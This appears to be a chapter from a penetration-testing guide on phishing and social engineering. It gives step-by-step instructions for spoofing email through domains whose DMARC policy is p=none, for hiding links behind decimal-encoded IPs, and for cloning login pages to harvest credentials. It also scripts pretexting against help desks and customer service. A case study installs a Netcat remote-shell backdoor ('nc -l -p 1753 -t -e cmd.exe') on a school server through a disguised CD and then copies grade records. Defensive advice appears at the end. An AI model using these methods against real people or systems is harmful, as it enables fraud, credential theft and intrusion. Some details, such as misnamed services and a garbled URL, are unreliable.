
To understand how network and authentication features of phishing emails impact detection, an analyzation was conducted against a subset of phishing emails using two widely-used open-source spam filters. The experiments revealed that compliance with established authentication standards, such as using newly registered domains, can effectively bypass these filters. In many instances, authenticated phishing emails sent from fresh domains managed to circumvent detection and reach end users’ inboxes.

The analysis of this method across various popular email service providers indicates a lack of effective countermeasures against such tactics. Finally, we discuss potential mitigation strategies to protect end users from these attacks and provide recommendations for future research and improvements in spam filtering technologies.

### PHISHING EMAIL CHARACTERISTICS

While content is a critical factor in detecting phishing emails, there are additional aspects that must be considered to filter these malicious messages more effectively. Social engineering plays a significant role in phishing attacks, where attackers use psychological manipulation to deceive recipients. Phishers often exploit internet mail standards, which allow users to modify email headers for both legitimate and illegitimate purposes, including spoofing. The primary objective of phishers is to impersonate a trusted entity by falsifying the sender’s address, known as “spoofing.”

Social engineering tactics, such as those seen in CEO Fraud attacks involve impersonation high-ranking executives within an organization. Attackers use these methods to exploit the target’s trust, tricking them into clicking on links that lead to malicious websites. When the target interacts with these links, their personal information may be stolen, or their system may be compromised with malicious content.

### PHISHING EMAIL DETECTION TECHNIQUES

In the early days of anti-spam efforts, “blacklisting” was a common method for detecting and blocking spam emails by referring to a list of known spammers. While this approach remains in practice and in use today, it does not address the issue of attackers falsifying their identities to appear legitimate. Modern detection techniques have evolved to focus on network and authentication aspects to ensure the authenticity of email senders. Various SMTP security extensions, including _**STARTTLS, SPF, DKIM,**_ and _**DMARC**_ have been developed to combat email spoofing. These techniques aim to enhance email security by verifying the sending domain’s identity and preventing unauthorized modifications to email headers.

Social engineers can exploit various email security mechanisms, including _**DNS Blacklists (DNSBL), Reverse DNS lookups (rDNS), SPF, DKIM, DMARC**_ (as previously discussed), and _**STARTTLS**_, to enhance their phishing campaigns or bypass detection measures. Here’s a short description of how each of these mechanisms can be leveraged or circumvented:

### DNSBL (DNS Blacklist)

Social engineers might use compromised or previously clean IP address that have been blacklisted due to their association with spam. By continually changing their IP addresses or by using IP addresses not yet listed, we can evade detection by DNSBL systems. Additionally, we might use botnets to mass-distribute phishing emails from a wide range of usable IPs to avoid triggering blacklisting, or _**“denylisting.”**_

Social engineers can also employ tactics like sending phishing emails from newly registered domains or IP addresses that have not been flagged yet. By frequently changing the sending infrastructure, we can further reduce the risk of being caught by DNSBLs.

### rDNS (REVERSE DNS LOOKUP)

Social engineers can set up their mail servers to ensure that the _**PTR (Pointer)**_ record matches their domains, making it appear legitimate. This alignment can help them bypass spam filters that rely on rDNS checks to validate email authenticity.

.png>)

### HOW TO SPOOF AN EMAIL

Verizon reports that over 90% of enterprise attacks involve email fraud (spoofing). Why is email such an attractive target for spreading malware and malicious links? It’s simple – convincing a person to click a malicious link or open a fraudulent attachment is much easier than breaking through hardened network defenses.

Understanding how to spoof email addresses is an essential part of running any social engineering penetration test or red team exercise, or even phishing simulation, particularly when a majority of domains are vulnerable to spoofing in some way, shape, or form.

Imagine it like this: Would you rather face a fortified tank head-on, or persuade the crew to come out and surrender? The latter is clearly easier. Email attacks, like social engineering through the use of phishing, exploit human vulnerability rather than trying to brute-force technical defenses.

#### _**THE STRUCTURE OF A SPOOFED EMAIL**_

Why not make email as secure as a firewall, turning it into a virtual fortress? The answer lies in the origins of email. It wasn’t designed with security in mind. Developed in the 1960s, the original email standard (RFC 822) was written in 1982, and the structure we use today didn’t undergo significant updates until 2008.

Emails are composed of three primary components:

1. **The Envelope**
2. **The Message Header**
3. **The Message Body**

To enable communications between different systems, emails rely on a common protocol to achieve this: _**Simple Mail Transfer Protocol (SMTP | Port 25).**_ This protocol ensures compatibility between diverse email clients, but it also introduces vulnerabilities. Much like sending a letter in the postal service system, the recipient does not see the “envelope.” Normally, this isn’t an issue, since email clients automatically generate the necessary envelope information based on the message header.

#### _**UNDERSTANDING SPOOFED EMAIL COMPONENTS**_

When spoofing an email, you can manipulate the following fields:

* **Mail From:**
* **From:**
* **Subject:**
* **Date:**
* **To:**
* **Reply-To:**

From here, you can fill in any information you want, and here’s where the risk lies. The lack of built-in authentication in the original email design allows you to impersonate trusted sources. Spoofed emails can look authentic to recipients, making it easy to launch phishing attacks. By exploring how spoofing works in practice, it’s easier to understand the potential damage.

.png>)

The box in red above highlights the email’s envelope. Normally, the envelop fields are filled out for the sender automatically during the translation of the header. Neither the sender nor the recipient usually sees this information. The stuff in blue is the header and the body contents. This is the stuff you normally see when you open an email that was sent to you.

It is possible for the sender to tinker with the message header and spoof the sending identity to the email looks like it is from someone other than Dude1. Let’s break down how spoofing an email identity works. Say you have a friend that likes to play practical jokes on you. And you receive an email from this person that says this:

.png>)

Notice that the envelope fields are correct, but the **From:** and **Reply-To:** are false. When Dude1 receives this email, he may think it’s from his boss. When he hits **“Reply”** all he’ll see in the **To:** field is the “BossMan” name, but it will go back to his friend who spoofed the email, Dude2.

Social engineers and cyber attackers alike can cleverly disguise an email in the same way and custom tailor it for their intended victims.

For example, if you want banking credentials from a certain financial target, you can do the same thing Dude2 did, but instead of telling Dude1 that he got a raise, you can represent yourself within the email as a trusted bank and direct your target recipient to your fraudulent website.

There are many variations of this email scam, however at the core, they are the same: spoof the sender’s identity and convince the victim the email is not from a threat actor, but a legitimate source. From there, the end goal is usually the same, extracting sensitive information from an unsuspecting victim.

### HOW TO SPOOF AN EMAIL ADDRESS USING AN SPF-BYPASS ATTACK

#### _**STEP 1: IDENTIFYING A VULNERABLE DOMAIN**_

To spoof an email address using an SPF-Bypass attack, the first step is to identify a domain that lacks proper DMARC enforcement or has a misconfigured DMARC record, or no DMARC record at all. Specifically, you’ll want to find domains where the DMARC policy (indicated by the “p” tag) is set to “None,” which indicates that no enforcement actions will be taken if authentication fails, or non-enforcement mode which means that the domain owner allows monitoring but does not take any action on emails that fail DMARC authentication checks. Again, this setting is indicated by p=none in the domain’s DMARC record (found in DNS).

When a domain’s DMARC policy is set to “none,” even if an email fails for both SPF and DKIM checks, no action such as quarantining or rejecting the email will be enforced. Instead, the only result you will see of a failed check is the generation of a DMARC report sent back to the domain owner for analysis, or an NDR (Non-Deliverable Report) sent to the sender indicating their email did not pass validation and verification checks and the email subsequently resulted in non-delivery status, and thus rejected.

The purpose of this mode is to give organizations visibility into how their emails are being processed without immediately affecting email delivery. It's often used during the initial stages of DMARC implementation to gather information and ensure that legitimate emails are passing checks before moving to stricter enforcement policies like quarantine or reject; however, when a domain remains in "none" mode for too long, it leaves the domain vulnerable to spoofing attacks, as fraudulent emails can still be delivered to recipients without any rejection or quarantining measures.

There are various methods to identify such domains, including manual searches using tools like the dig command, automated scanning tools like email domain scanning tools, and specialized threat intelligence platforms. For example, tools such as dig can be used to manually query DNS records and verify domain configurations, while automated scanning tools like Nmap or Recon-ng can help identify vulnerabilities and inconsistencies in domain setups. Threat intelligence platforms such as VirusTotal or Shodan provide comprehensive analyses of domain reputation and associated threats. Additionally, services like DNSBLs and SPF/DKIM/DMARC verification tools can help detect suspicious domains by checking against known blacklists and authentication records.

A **dig query** can be used to reveal the DMARC configuration of a target domain by performing a DNS lookup for the domain’s DMARC record. DMARC (Domain-based Message Authentication, Reporting, and Conformance) is implemented using a **TXT record** in the DNS of the domain. When you use the dig command to query a domain’s DNS for this record (e.g., dig TXT \_dmarc.example.com), the DNS server returns the DMARC policy information associated with the domain.

The DMARC record contains several key components:

* v=DMARC1: The version of DMARC.
* p=none/quarantine/reject: This is the policy that specifies how receivers should handle emails that fail DMARC checks. For example, "none" means no enforcement, "quarantine" marks the email as spam, and "reject" blocks the email outright.
* rua=mailto:report@example.com: This defines where aggregate reports are sent.
* sp=: Specifies the policy for subdomains, if different from the primary domain.

### HOW THE DMARC RECORD IS VERIFIED

After retrieving the DMARC record using the dig query, the email receiver checks for proper implementation and enforcement by verifying:

**1. Presence of the Record:** If no DMARC record is found, it indicates that DMARC isn’t enforced for the domain.

**2. Policy Settings:** If the **policy** (p) is set to none, it means the domain does not enforce DMARC protection. Attackers can exploit this by spoofing emails from the domain without much resistance.

**3. Alignment of SPF and DKIM:** DMARC requires alignment between SPF DKIM (DomainKeys Identified Mail). If neither aligns, DMARC should fail unless the policy is too lenient. If alignment isn’t strictly enforced (for example, the domain uses a weak or missing policy like p=none), an attacker can bypass the protection using an SPF-bypass attack by forging the email’s sender address.

Thus, if a domain's DMARC record shows improper enforcement or lax settings, like a p=none policy or no record at all, it becomes a prime candidate for SPF-bypass attacks, where the attacker exploits the lack of strict sender validation.

For the purposes of illustration, imagine running a dig query against a domain and finding that its DMARC record isn’t adequately configured. This could allow a spoofing attack to proceed.

For instance, using dig to query a domain’s DMARC record would look something like this:

dig TXT \_dmarc.example.com

This command queries the DMARC record of example.com. The response will provide the domain's DMARC configuration, which includes the policy (p=) tag. If the policy is set to p=none, the domain isn't enforcing DMARC, making it a potential candidate for an SPF-bypass attack. A response might look like this:

\_dmarc.example.com. 600 IN TXT "v=DMARC1; p=none; rua=mailto:dmarc-reports@example.com"

This output shows that the domain has a DMARC record but with a "none" policy, meaning it will not act against failed DMARC checks (e.g., spoofed emails).

To automate this process across multiple domains, tools like _**CanIPhish**_ allow you to scan a domain or list of domains to identify those that are vulnerable to spoofing. These tools simplify the process of detecting domains with weak DMARC enforcement by automatically parsing SPF, DKIM, and DMARC records and highlighting weaknesses.

This image below depicts a dig DMARC query against the Wikipedia.org domain:

.png>)

As an example, we can see that wikipedia\[.]org doesn't have an adequately configured DMARC record, so we'll use this example for the remainder of the walkthrough.

#### _**STEP 2: SET UP AN EMAIL SERVER**_

Setting up an email server can be tricky for beginners, primarily because most cloud service providers like AWS, Azure, and Google Cloud impose restrictions on sending outbound emails over TCP port 25 (SMTP) to prevent misuse by spammers, bots, and cybercriminals. For instance, Azure requires you to sign an Enterprise Agreement before unlocking port 25 for SMTP; however, if you have legitimate access to email infrastructure through a large organization or service provider, this can be achieved without issues.

There are, however, free email relaying services you can use to setup such as _**iRedMail**_ (https://www.ireadmail.org), or _**InMailServer**_ (https://www.hmailserver.com).

Once you’ve acquired an email server, the next step is to configure it to send outbound emails, ideally with a Linux-based operating system that supports outbound SMTP connections over port 25.

#### _**STEP 3: ACQUIRE A DOMAIN FOR ATTACK**_

SPY-bypass attacks work by exploiting the difference between the email envelope’s “mail from:” address and the email contents “from:” address. To perform this attack, you’ll need a domain that you control to use in the email envelope’s “mail from:” field. This is the domain that will eventually undergo SPF checks.

For this to happen, you’ll need to register a domain through a registrar like GoDaddy, Namecheap, or Amazon Route S3. Select a generic or inconspicuous domain name to reduce suspicion. Once you’ve secured your domain, you’ll configure an SPF record to authorize the email server (established in Step 2) to send emails on behalf of your domain.

For example, your SPF record might look like this:

v=spf1 ip4:\<IP-ADDRESS> -all

Here, \<IP-ADDRESS> should be replaced by the public IP address of your newly setup email server. Once this is set up, your email server will be able to send emails that pass SPF checks, opening the door for you to spoof emails from more reputable domains in the “from:” field of the email content you create.

### CREATING SPOOFED LINKS USING A BASE-10 ENCODED URL

To create a spoofed link with a base-10 encoded URL, start by embedding the encoded IP address within a legitimate-looking URL. For example, in the URL http://www.fakemicrosoft.com/passport/hotmail/login.asp@333868852/login.asp, the string after the "@" symbol (333868852) is the base-10 encoded IP address of the malicious website. The "@" symbol tricks the browser into ignoring the part before it (the legitimate Microsoft URL) and redirects the user to the hidden, encoded destination.

To encode an IP address into base-10, follow these steps:

1. Start with the IP address you want to encode. In this case, it’s 19.230.111.52.
2. For each octet, apply these multiplications:

* Multiply the first octet by 16,777,216 (which is 2563):

19 \* 16,777,216 = 318,767,104

* Multiply the second octet by 65,536 (which is 256²):\
  230 \* 65,536 = 15,073,280
* Multiply the third octet by 256:\
  111 \* 256 = 28,416
* Finally, add the value of the last octet, which is 52.

Now, sum these numbers:\
318,767,104 + 15,073,280 + 28,416 + 52 = 333,868,852.

This total, 333868852, is the base-10 encoded IP address. When included in the link, it looks like http://333868852/login.asp, misleading the user into believing it's a legitimate website.

To complete the attack, clone the target website using a tool like _**WinHTTrack Website Copier**_. Once you've downloaded the site, modify its source code to capture login credentials. For instance, set the **Submit** button to send the entered information to your server or email account instead of the legitimate service. This process enables a phishing attack disguised as a legitimate login page.

Another approach involves registering a website with a name that closely resembles a legitimate domain. For example, directing users to http://WWW.YAH00.COM at first glance may look like Yahoo’s official site, but upon closer inspection, you’ll notice the use of zeroes instead of the letter “O.” This small tweak is often enough to fool unsuspecting users. This tacking is known as both _**domain squatting**_ and _**phishing**_, where you send emails that lure recipients to fake websites to capture sensitive information.

A 2024 Internet Identity survey reported that 10% of e-commerce websites were subject to brand spoofing, where malicious actors create similar-sounding sites for phishing schemes. Phishing is notoriously difficult to defend against, as these attacks often target individual consumers rather than corporate accounts. Even though the legitimate company is not at fault, it may suffer reputational damage and lose customer loyalty and trust as a result.

Another common email-based attack involves sending malware attachments, such as viruses or Trojans. These emails often contain subject lines designed to grab attention, like “I missed you,” or “Check this out!.” Past examples include messages like “I love you,” or “Naked picture of Anna Kournikova attached.” Once the recipient opens the attachment, it can infect their system with malware, leading to compromised data or further spread of the virus.

**FACT:**

A Trojan horse program is a type of malicious software that masquerades as a useful or legitimate application to trick users into installing it. One infamous example is BoSniffer, a program presented as security software designed to detect the presence of Back Orifice (BO2K), a remote administration tool often exploited by hackers to control systems without detection. BoSniffer promised to protect users by scanning for the Back Orifice variant, and if it didn’t find it, the program would covertly install the BO2K itself and broadcast the compromised system’s status to an IRC channel named #BO\_OWNED.

The term "Trojan horse" comes from Greek mythology, where Greek soldiers hid inside a large wooden horse offered as a gift to the city of Troy. Once inside the city walls, the Greeks emerged from the horse at night and launched a surprise attack, leading to the fall of Troy. Similarly, Trojan horse programs hide their malicious intent behind a seemingly harmless facade, tricking users into unwittingly allowing harmful software into their systems.

.jpeg>)

WinHTTrack welcome screen and language preference.

.jpeg>)

Select a project name to organize your downloads.

Type one or several web addresses.

You have powerful options available to precisely define what it is your looking to accomplish.

Options are available to only save the settings and launch the mirror at a later time.

HTTrack Website Copier in motion.

The website copying is finished, and you can check the results in real-time.

One widely known virus, the **NakedWife virus**, spread via email with a subject line that read "NakedWife" and a message body that teased, "My wife never look \[sic] like that :-)." When recipients opened the attachment, a virus was installed on their computer, which began systematically deleting files from their hard drive. The virus then spread itself by sending the same email to all contacts in the victim's Outlook Address Book. This method of propagation made the email appear as though it was sent from someone familiar to the next victim, increasing the likelihood that the attachment would be opened.

Another type of scam involves informing individuals that they’ve "won a prize." While many people are cautious about such claims through email, they may be more trusting when receiving a letter through postal mail on official-looking letterhead. The letter typically directs recipients to visit a website or contact an email address to claim their prize, requiring them to provide personal details such as their name, address, and credit card number for "shipping fees."

Penetration testers often use these types of social engineering attacks to evaluate how well employees recognize and respond to phishing attempts as part of an organization’s security awareness program. By sending mock phishing emails or similar scam messages, penetration testers can measure how vulnerable the workforce is to these types of schemes and provide valuable insights into their level of preparedness.

### END USER IMPERSONATION

If you manage to gain access to a company’s building, consider pretending to be en end user calling the help desk. Start by locating an unused workstation,. When you power it on, it typically shows the username of the last person who used it, although it shouldn’t, if the OS is properly hardened. What you can do with this information here is with the end user’s domain name shown, enter several incorrect passwords to lock the account. This will usually require a systems administrator to unlock it.

Call the help desk and claim to be the user whose account you’ve locked. Explain that you’ve forgotten your password and are locked out of the network. The IT support should unlock the account and provide you with a new password or will initiate a remote password reset providing you with a password change prompt on the screen. Once you have this new password, or created a new one, you’ll be able to log in as that user. You might be surprised at how effective this tactic can be.

### CUSTOMER IMPERSONATION

Customer service centers are prime targets for social engineering testing. Representatives here have access to sensitive information like account numbers, credit card details, and in the U.S., Social Security numbers. Here’s an example of how a social engineering penetration tester might exploit this:Top of Form

|   | 
 <strong>Social Engineer:</strong> Hi, I’d like to check the balance of my credit card.

<strong>Customer Service Rep:</strong> Certainly. Can you please provide your account number?

<strong>Social Engineer:</strong> I don’t have that with me at the moment, but I can give you my address. (You can easily find this information through public records).

<strong>Customer Service Rep:</strong> Without the account number, I can’t look up your information.

<strong>Social Engineer:</strong> Please, it’s my fifth wedding anniversary, and my wife is in the hospital. I wanted to buy her something special for her after work, but I’m unsure of our account balance. Could you please check it for me?

<strong>Customer Service Rep:</strong> Ok, what’s your address?
 |   |
| - | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Once the address is provided and the balance is shared, the social engineer might continue: 

|   | 
 <strong>Social Engineer:</strong> I’m thinking of ordering something online and having it delivered as a surprise, but I don’t have my account number. Could you please provide it to me?

<strong>Customer Service Rep:</strong> Sure, it’s…
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Most major credit card companies have robust defenses against such tricks. They often employ penetration testers to simulate these kinds of social engineering attacks, enforcing strict policies and severe consequences – up to termination – for employees who disclose customer information without proper validation and verification.

Given this, it can often be easier to pose as an internal caller. This can sometimes be achieved simply by calling one department and then transferring the call to another, making it seem like it originated from within the company. Some social engineers go as far as physically visiting the site to connect to the telephone line with a wiretap, which also creates the illusion of an internal call.

Employees tend to be more trusting of calls that appear to come from within the company. If a call seems to originate internally, employees might be more inclined to share customer information they would otherwise withhold.

Corporations with customer service centers should enforce strict policies against disclosing customer information without proper identity verification. Additionally, similar policies should be in place for sharing information internally within the company to prevent unauthorized access and protect sensitive data.

### REVERSE SOCIAL ENGINEERING

Reverse engineering is a bit more complex than the previous examples, but it can be quite effective. Reverse Social Engineering (RSE) involves three key steps:

**1. Sabotage:** First, you disrupt the network, potentially using a denial-of-service (DoS) attack.

**2. Advertising:** Next, you promote yourself as a network security expert specializing in defending against DoS attacks.

**3. Support:** Once the company hires you, you provide support and resolve the issue, all while installing backdoor applications to gain future access to the network.

In RSE, the roles are reversed. Instead of seeking help, you create a problem that leads users to contact you for assistance.

To be effective with Reverse Social Engineering (RSE), it’s often best to wait for a new virus to spread across the Internet rather than initiating an attack yourself. Advertise your expertise in virus protection and, while on-site addressing the company's issues, create opportunities for future access. This might involve opening up the firewall or installing a backdoor application to maintain entry into the network from the Internet.

For penetration testers, this can be particularly challenging because, after the initial test, IT staff may recognize you. To navigate this, obtain written permission from management to attempt RSE during the next widespread virus outbreak.

The core of RSE is getting the company to reach out to you. People are generally more trusting when they are the ones initiating contact rather than receiving unsolicited calls.

### PROTECTING AGAINST SOCIAL ENGINEERING ATTACKS

Certain types of companies may be more vulnerable to social engineering attacks than others, including:

* **Large companies:** Smaller companies tend to know their employees better and would notice if an outsider is snooping around.
* **Companies with remote users or telecommuting users:** Telecommuters and mobile employees are more easily tricked since they rarely verify a caller’s identity.
* **Companies that publish full contact details on their website:** Information such as email addresses and phone extensions are valuable to social engineers, as it provides an easy starting point for an attack.
* **Companies that hire receptionists through temporary agencies:** Receptionists serve as the first line of defense against social engineering. Companies relying on temp agencies face higher risks due to frequent staff turnover, leaving untrained personnel vulnerable to scams.
* **Companies with call centers:** Customer service centers are a goldmine for social engineers looking to obtain customer account information.

The most effective defense against social engineering is employee training. Defenders must make it a priority to educate staff about social engineering tactics and notify them of current scams in the wild. Receptionists, help desk teams, and customer service representatives should receive specialized training, as they are the most likely targets. It’s important that defenders teach these employees to verify caller identities by asking a series of questions before doling out sensitive information or even non-sensitive information for that matter. Social engineers, unless highly skilled, are likely to hang up after too many inquiries. In essence, defenders should teach staff to perform their own form of social engineering to uncover a potential scammer’s identity.

To combat dumpster diving, policies need to be implemented for the secure disposal and sanitization of sensitive information, such as shredding and incinerating paper documents, and degaussing storage devices that contain such information.

**TIP: Kevin Mitnick is arguably the most famous social engineer. Along with coauthor William Simon, he wrote&#x20;**_**The Art of Deception: Controlling the Human Element of Security.**_**&#x20;This book is an invaluable resource for anyone seeking more in-depth information on real-world examples of social engineering techniques.**

### CASE STUDY

In this case study, a penetration tester named Jayden is hired to conduct a social engineering attack on a public elementary school with the goal of gaining access to their systems and altering student grades.

Jayden starts by researching common grading software used in schools. He comes across popular programs like Class Action Gradebook, AutoGrade, Grade Genie, ThinkWave, and Next 5 Grading. He also visits educational forums, such as the one on [www.familyeducation.com](http://www.familyeducation.com/), to gather insights on how schools use technology. Through his research, he learns about a local school called Washington Elementary, which helps him appear knowledgeable when making calls.

Next, Jayden contacts the school and asks to speak with the person responsible for technology. He is connected to a staff member named Damien, and the conversation unfolds from there:

|   | 
 <strong>Jayden:</strong> Hello, Damien? My name is Jayden, and I’m over at Washington Elementary. I’ve recently been put in charge of our technology here, but honestly, I’m still learning the ropes. I was hoping you could help me out.
 |   |
| - | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

At this point, Jayden establishes a need for assistance. Knowing that people generally like to be helpful, he anticipates that Damien will be willing to lend a hand.

|   | 
 <strong>Damien:</strong> Hi, Jayden. So, you’re over at Washington now? What happened to Alyssa? I thought she was handling all the tech over there.

<strong>Jayden:</strong> Yeah, she’s still managing things, but they’ve expanded her role. I’m working directly under her now. She’s great to work with.
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | - |

Here, Jayden cleverly avoids suspicion by explaining that Alyssa has been promoted. He also throws in a compliment about Alyssa, keeping the conversation friendly and lighthearted.

|   | 
 <strong>Jayden:</strong> Anyway, Alyssa’s asked me to look into some new grading software. I’ve been checking out Gradebook, AutoGrade, and Grade Genie, but I’m not sure which one is the most flexible. What are you guys using?
 |   |
| - | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Jayden shows familiarity with different grading software, using the information he gathered from message boards to appear credible and knowledgeable in the education space. He asks about flexibility, a key concern he knows is often discussed among educators.

|   | 
 <strong>Damien:</strong> We’ve been using Gradebook, and we’re pretty happy with it, so far.
 |   |
| - | ------------------------------------------------------------------------------------------------------- | - |

From here, Jayden continues asking questions about the software, referencing topics he’s researched on message boards to keep the conversation going and gain more detailed information.

After the initial conversation, Jayden now knows the type of grading software used at the school and that the person in charge of technology is Damien.

For the next phase of the social engineering attack, Jayden decides to have someone else contact Damien to avoid being recognized. Since social engineering schemes often work better when interacting with the opposite gender, Jayden enlists his coworker Fiona to pose as a support representative from ThinkWave. To avoid suspicion, Fiona waits a couple of weeks before making the call.

|   | 
 <strong>Fiona:</strong> Hello, Damien? This is Fiona with ThinkWave Technology. We’re reaching out to see if you’d be interested in joining our customer improvement program. As an added incentive, we’re offering a 20 percent discount on all future upgrades.
 |   |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Since public schools often face budget constraints, Fiona anticipates that Damien would be motivated by the potential to save money.

|   | 
 <strong>Damien:</strong> Sure. What do I need to do?

<strong>Fiona:</strong> I’ll send you some reporting software to install on your server, along with instructions for configuration. Whenever an error occurs, the software generates a report and sends it directly back to us. It won’t capture any personal information – just details like the type of computer, the time of the error, and what processes were running when the issue happened. By gathering these reports from customers, we aim to fix bugs in future releases.

<strong>Damien:</strong> That sounds wonderful!
 |   |
| - | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Following this conversation, Jayden downloads the ThinkWave logo from their website and creates a customized letterhead with the company’s branding. He also finds ThinkWave’s address to make the package look legitimate. The package, which includes a CD containing the **Netcat** utility, is sent to Damien with a letter that reads:

|   | 
 <em>Dear Damien,</em>

<em>Thank you for participating in our customer improvement program. Your support will play a crucial role in helping us enhance future releases of our product. Enclosed is a CD containing the reporting software that will help us gather valuable data. Rest assured; no personal information will be transmitted – only technical details when errors occur.</em>

<em>To start using the program, simply insert the CD into the CD-ROM drive of your server. The setup should launch automatically, but if it doesn’t, you can manually start it by navigating to the CD-ROM sport and running <strong>setup.exe.</strong></em>

<em>Please note, this reporting software communicates over <strong>TCP port 1753.</strong> You will need to open this port in your firewall to ensure the program functions properly. If you need assistance, consult your firewall documentation on how to allow traffic through this port.</em>

<em>By enrolling in this program, you’re also entitled to a <strong>20 percent discount</strong> on all future upgrades. We appreciate your continued business and support and look forward to serving you further.</em>

<em>Sincerely,</em>

<em>Alyssa Rocha</em>

<em>Support Representative</em>

<em>ThinkWave</em>

<em>“Where teachers, students, and parents communicate.”</em> 
 |   |
| - | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

On the enclosed CD, Jayden had embedded a setup utility designed to install _**Netcat**_ on the root of the server’s hard drive. Netcat is a backdoor Trojan that would give Jayden remote access to the server. The installation script executed netcat with the following parameters:

C:\nc –l –p 1753 –t –e cmd.exe

* -l: Puts Netcat into **listening mode.**
* -p 1753: Specifies **port 1753** for listening.
* -t: Configures Netcat to listen for **Telnet requests.**
* -e cmd.exe: Instructs Netcat to open a **command shell** upon connection.

After a few days, Fiona calls Damien to follow up:

|   | 
<strong>Fiona:</strong> Hi Damien, it’s Fiona. I’m just checking to see if you had any trouble installing the reporting software.

<strong>Damien:</strong> Nope, no problems at all.

<strong>Fiona:</strong> Fantastic! Now, we just need your <strong>external IP address</strong> so that we can identify the reports coming from your server.

<strong>Damien:</strong> Sure, let me check…It’s <strong>200.100.50.25.</strong>

<strong>Fiona:</strong> Great! If you ever need assistance, don’t hesitate to call. Do you have or main support line?

<strong>Damien:</strong> Yeah, I believe I do.
 |   |
| - | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | - |

Now that Jayden has the external IP address, he proceeds to access the server remotely. From his computer, he runs the following command:

C:\nc 200.100.50.25 1753

This command attempts to connect to the school’s server on **port 1753.** Sure enough, Jayden successfully establishes a connection. To verify access, he lists the directories on the server by typing:

C:\\>dir

(or uses the ‘ls’ command if a Linux system).

The output confirms his access to the system.

Volume in drive C has no label.

Volume Serial Number is 8496-8025

Directory of C:\\

06/01/2004 04:11 PM \<DIR> ThinkWave

04/14/2004 03:11 PM \<DIR> WINNT

04/14/2004 07:43 AM 0 AUTOEXEC.BAT

...

Jayden now has control over the school’s server, and now that Jayden has full access to the school’s server, he begins exploring the system to locate the grading software. After navigating through the directories, he finds the folder where the grades are stored. Jayden copies the grade data to his local machine for further analysis. To ensure his report is comprehensive, he logs every step of the process and takes screenshots of key moments.

While examining a file named 010521.edt using a text editor, Jayden discovers it contains a student’s grade information:

010521 Spelling A

010521 Mathematics B

010521 Physical Education A

With just a few phone calls and a single command, Jayden successfully accessed sensitive student grade records, proving how quickly and easily a targeted social engineering attack can compromise an institution’s system.

### CHAPTER SUMMARY

No matter how much security technology a company invests in, it remains vulnerable to social engineering attacks. Social engineering can occur through various channels – via computers (e.g., emails), over the phone, or in person. According to social psychology, there are seven key persuasion techniques often used:

* **Conformity**
* **Logic**
* **Need-based**
* **Authority**
* **Reciprocation**
* **Similarity**
* **Information-based**

To succeed in social engineering, one must have patience, confidence, and the ability to build trust with the target. Gaining inside knowledge of the target company also plays a critical role.

Common social engineering tactics include:

* Tech support impersonation
* Third-party impersonation
* Email impersonation
* End-user impersonation
* Customer impersonation
* Reverse social engineering

The most effective defense against these attacks is regular training. Employees in positions like receptionists, help desk staff, and call center workers should receive focused training since they are more likely to be targeted.

.png>)

### RECOMMENDED READING AND RESOURCES

#### _**BOOKS:**_

* **“The Art of Deception: Controlling the Human Element of Security,”** by Kevin D. Mitnick

_An in-depth look into how social engineers manipulate people into divulging information and access._

* **“Social Engineering: The Science of Human Hacking,”** by Christopher Hadnagy

_Explores the psychological principles behind social engineering, with real-world examples and case studies._

* **“Ghost in the Wires: My Adventures as the World’s Most Wanted hacker,”** by Kevin D. Mitnick

_An autobiography that provides insights into how social engineering played a critical role in Mitnick’s hacking exploits._

* **“Unmasking the Social Engineer: The Human Element of Security,”** by Christopher Hadnagy

_Focuses on the psychology behind social engineering, body language, and communication techniques._

* **“No Tech Hacking: A Guide to Social Engineering, Dumpster Diving, and Shoulder Surfing,”** by Johnny Long

_Covers physical and social hacking methods beyond technical explanation._

#### _**RESEARCH PAPERS:**_

* **"The Psychology of Social Engineering"** by Frank Stajano and Paul Wilson\
  _&#x41; comprehensive study on why social engineering works, grounded in psychological theory._
* **"Phishing Susceptibility: The Impact of Social Engineering"** by Arun Vishwanath\
  _&#x45;xamines how and why individuals fall for phishing attacks and social engineering techniques._
* **"Social Engineering: The Next Security Threat"** by Roger A. Grimes\
  _&#x45;xplores the history and future trends of social engineering threats._

#### _**ONLINE RESOURCES:**_

1. **KnowBe4** (https://www.knowbe4.com)\
   _&#x41; platform offering security awareness training and social engineering simulations._
2. **Social-Engineer.org** (https://www.social-engineer.org)\
   _&#x41; community-focused site dedicated to social engineering, offering resources, podcasts, and training._
3. **Phishing.org** (https://www.phishing.org)\
   _&#x41;n educational site dedicated to phishing attacks, techniques, and defenses._
4. **The Social Engineering Framework** (https://www.social-engineer.org/framework/general-discussion/the-framework/)\
   _&#x41; comprehensive resource on the tactics and tools used in social engineering._

#### _**SOCIAL ENGINEERING ATTACK TOOLS:**_

1. **SET (Social-Engineer Toolkit)**\
   _&#x41;n open-source penetration testing tool specifically designed to perform advanced social engineering attacks._
2. **Maltego**\
   _&#x41; tool used for information gathering and link analysis, helpful in social engineering reconnaissance._
